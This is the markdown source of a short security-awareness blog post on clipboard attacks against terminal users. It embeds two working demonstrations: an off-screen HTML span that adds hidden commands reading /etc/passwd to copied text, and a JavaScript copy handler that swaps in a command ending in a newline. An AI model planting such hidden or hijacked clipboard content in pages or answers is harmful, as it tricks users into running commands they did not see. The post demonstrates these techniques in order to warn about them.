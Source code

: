 ```yaml
---
layout: post
title: Dangerous Clipboards
date: '2018-04-24 13:11'
---
```

Have you ever cut/copied/pasted into a terminal window? Here's one of a few reasons why you shouldn't:



### example 1:
{::nomarkdown}
    <code>
      <!-- Oh noes, you found it! credits go to http://thejh.net/misc/website-terminal-copy-paste-->
      git clone
      <span style="position: absolute; left: -100px; top: -100px">/dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!<br>Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd<br>git clone </span>
      git://git.kernel.org/pub/scm/utils/kup/kup.git
    </code>
{:/}




### example 2:
{::nomarkdown}
  <!-- credit to https://security.love/Pastejacking/ -->
 <code>echo "not evil"</code>
        <script>
            document.addEventListener('copy', function(e){
                console.log(e);
                e.clipboardData.setData('text/plain', 'echo "bad idea!" && head /etc/passwd\r\n');
                e.preventDefault(); // We want our data, not data from any selection, to be written to the clipboard
            });
        </script>

{:/}